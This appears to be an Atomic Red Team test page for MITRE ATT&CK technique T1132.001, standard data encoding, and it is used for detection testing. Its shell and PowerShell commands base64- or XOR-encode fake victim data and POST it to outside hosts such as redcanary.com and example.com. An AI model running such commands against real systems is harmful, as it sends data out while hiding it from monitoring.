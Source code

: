 # T1132.001 - Data Encoding: Standard Encoding
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1132/001)
<blockquote>

Adversaries may encode data with a standard data encoding system to make the content of command and control traffic more difficult to detect. Command and control (C2) information can be encoded using a standard data encoding system that adheres to existing protocol specifications. Common data encoding schemes include ASCII, Unicode, hexadecimal, Base64, and MIME.(Citation: Wikipedia Binary-to-text Encoding)(Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)

- [Atomic Test #2 - Base64 Encoded data (freebsd)](#atomic-test-2---base64-encoded-data-freebsd)

- [Atomic Test #3 - XOR Encoded data.](#atomic-test-3---xor-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 1164f70f-9a88-4dff-b9ff-dc70e7bf0c25





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```






<br/>
<br/>

## Atomic Test #2 - Base64 Encoded data (freebsd)
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** Linux


**auto_generated_guid:** 2d97c626-7652-449e-a986-b02d9051c298





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | b64encode -r -
curl -XPOST #{base64_data}.#{destination_url}
```




#### Dependencies:  Run with `sh`!
##### Description: Requires curl
##### Check Prereq Commands:
```sh
if [ -x "$(command -v curl)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
pkg install -y curl
```




<br/>
<br/>

## Atomic Test #3 - XOR Encoded data.
XOR encodes the data with a XOR key.
Reference - https://gist.github.com/loadenmb/8254cee0f0287b896a05dcdc8a30042f

**Supported Platforms:** Windows


**auto_generated_guid:** c3ed6d2a-e3ad-400d-ad78-bbfdbfeacc08





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | url | example.com|
| plaintext | Plain text mimicking victim data sent to C2 server. | string | Path&#92;n----&#92;nC:&#92;Users&#92;victim|
| key | XOR key used for encoding the plaintext. | string | abcdefghijklmnopqrstuvwxyz123456|


#### Attack Commands: Run with `powershell`! 


```powershell
$plaintext = ([system.Text.Encoding]::UTF8.getBytes("#{plaintext}"))
$key = "#{key}"
$cyphertext =  @();
for ($i = 0; $i -lt $plaintext.Count; $i++) {
 $cyphertext += $plaintext[$i] -bxor $key[$i % $key.Length];
}
$cyphertext = [system.Text.Encoding]::UTF8.getString($cyphertext)
[System.Net.ServicePointManager]::Expect100Continue = $false
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $cyphertext -DisableKeepAlive
```






<br/>
